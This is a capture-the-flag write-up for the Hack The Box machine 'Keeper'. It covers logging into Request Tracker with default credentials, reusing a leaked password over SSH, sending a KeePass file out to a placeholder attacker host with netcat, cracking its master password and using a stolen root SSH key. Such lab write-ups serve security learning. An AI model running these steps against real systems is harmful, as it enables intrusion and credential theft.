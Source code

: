 # HTB - Keeper

**IP Address:** `10.10.11.35`  
**OS:** Ubuntu Jammy (22.04)  
**Difficulty:** Easy  
**Tags:** Web App, Docker, Request Tracker, SSH, KeePass, PuTTY Key Conversion

---

## 1. Initial Enumeration

### 1.1 Nmap Scan

Open Ports:

- `22/tcp` → SSH (OpenSSH 8.9p1 Ubuntu)
- `80/tcp` → HTTP (nginx 1.18.0)

---

## 2. Web Enumeration

Accessed `http://10.10.11.35`.  
Received redirect-like behavior.  

Added the hostname from the redirect manually into `/etc/hosts` to access the application.

Discovered a **Request Tracker** system.  
Searched GitHub and found default Docker environment variables in its Dockerfile:

```bash
ENV RT_DBA_USER root
ENV RT_DBA_PASSWORD password
```

✅ Used `root:password` to log in.

---

## 3. Credential Discovery

Navigated to **Admin → Users → lnorgaard**.  
Discovered cleartext password: `Welcome2023!`

---

## 4. SSH Access

Used `lnorgaard:Welcome2023!` to log in via SSH:

```bash
ssh lnorgaard@10.10.11.35
```

🏁 **User flag obtained**

---

## 5. KeePass File Transfer

Found `.kdbx` (KeePass) file on the system.  

Compressed it:

```bash
zip comprimido.zip <filename>
```

Transferred it using Netcat:

```bash
# Victim
nc <attacker_ip> 443 < comprimido.zip

# Attacker
nc -lvnp 443 > comprimido.zip
```

Verified transfer via `md5sum`.

---

## 6. KeePass File Cracking

### 6.1 Tried Wordlists → ❌ Failed

### 6.2 Used GitHub tool:

```bash
https://github.com/matro7sh/keepass-dump-masterkey
```

Extracted several candidate passwords.  
One was `rødgrød med fløde` (Danish phrase).

✅ Correct KeePass master password.

---

## 7. Found Root SSH Key

Inside KeePass entry for `root` user:

- PuTTY format private key

Converted key to PEM format:

```bash
puttygen key.ppk -O private-openssh -o id_rsa
chmod 600 id_rsa
```

---

## 8. SSH as Root

```bash
ssh -i id_rsa root@10.10.11.35
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
